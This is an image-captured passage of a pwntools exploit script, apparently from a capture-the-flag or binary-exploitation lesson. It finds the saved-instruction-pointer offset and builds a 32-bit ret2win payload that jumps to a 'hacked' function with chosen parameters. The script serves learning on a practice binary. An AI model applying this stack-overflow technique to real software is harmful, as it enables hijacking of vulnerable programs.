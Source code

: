           info('located EIP/RIP offset at {a}'.format(a=ip_offset))
          return ip_offset
      
      
      # Specify your GDB script here for debugging
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      
      # Set up pwntools for the correct architecture
      exe = './ret2win_params'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Enable verbose logging so we can see exactly what is being sent (info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      # Pass in pattern_size, get back EIP/RIP offset
      offset = find_ip(cyclic(200))
      
      # Start program
      io = start()
      
      # Build the payload
      payload = flat({
          offset: [
              # 32-bit the params follow the function
              elf.functions.hacked,
              0x0,  # Return pointer - try changing to main() and step through with GDB!
              0xdeadbeef,  # Param_1
              0xc0debabe,  # Param_2
          ]
      })
      